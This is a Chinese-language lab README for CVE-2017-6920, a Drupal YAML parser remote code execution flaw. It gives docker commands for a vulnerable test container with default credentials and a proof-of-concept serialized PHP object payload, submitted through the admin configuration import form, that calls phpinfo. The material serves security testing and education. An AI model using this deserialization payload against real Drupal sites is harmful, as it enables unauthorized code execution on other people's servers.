


## Drupal PECL YAML parser 远程代码执行漏洞(CVE-2017-6920)

### 漏洞信息

Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由内容管理系统（CMS）和PHP开发框架（Framework）共同构成。Drupal Core的YAML解析器处理不当所导致的一个远程代码执行漏洞。

### 影响版本

Drupal < 8.3.4

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/user/login | admin | admin123

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:d_drupal_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:d_drupal_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 看到 Drupal 主界面代表启动成功


### POC

> 假如目标地址为： http://127.0.0.1:8000/

1. 序列化一个`GuzzleHttp\Psr7\FnStream`类, 并给该序列化字符串加上yaml的`!php/object` tag(注意一定要转义):

 ```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
 ```

2. 登录一个管理员账号，访问如下url: 

 ```
http://127.0.0.1:8000/admin/config/development/configuration/single/import
 ```
 然后按下图所示填写表单：
 

3. 点击 `import` 后，触发：

 


### Exp

> 待补充，欢迎分享

构造方法可参考：[CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](http://paper.seebug.org/334/)

### 相关链接

* [Drupal Core - Multiple Vulnerabilities - SA-CORE-2017-003](https://www.drupal.org/SA-CORE-2017-003)
* [CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](http://paper.seebug.org/334/)

